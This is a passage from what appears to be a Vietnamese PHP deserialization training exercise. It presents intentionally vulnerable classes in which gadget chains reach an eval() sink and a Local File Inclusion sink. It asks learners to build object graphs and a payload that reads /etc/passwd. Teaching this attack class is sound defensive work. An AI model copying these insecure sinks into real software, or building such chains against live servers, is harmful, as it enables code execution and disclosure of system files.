class Notifier {
    public $formatter;
    public $receiver;
    public function __destruct() {
        $msg = $this->formatter->format("Alert!");
        $this->receiver->send($msg);
    }
}

class Mailer {
    public $hook;
    public function send($data) {
        eval($this->hook); // Sink nguy hiểm
    }
}
```

##### Yêu cầu dành cho bạn:
1. Phân tích xem `Notifier` cần những thuộc tính nào?
2. **Vẽ Object Graph** để kích hoạt được hàm `eval()` trong `Mailer`.
3. Viết code dựng đối tượng tương ứng.

---

#### 📝 BÀI TẬP 3 (Nâng cao: Chuỗi mắt xích 3 tầng Class)

##### Cho source code mục tiêu trên server:
```php
class ViewRenderer {
    public $template;
    public function render() {
        include($this->template); // Sink Local File Inclusion
    }
}

class CacheItem {
    public $renderer;
    public function getOutput() {
        $this->renderer->render();
    }
}

class AppManager {
    public $cache;
    public function __destruct() {
        $this->cache->getOutput();
    }
}
```

##### Yêu cầu dành cho bạn:
1. Phân tích luồng Runtime chạy từ đâu đến đâu.
2. Phân tích luồng dựng Object Graph (tạo cái gì trước, cái gì sau, gán vào đâu).
3. **Vẽ Object Graph** và viết script PHP tạo payload để đọc file `/etc/passwd`.


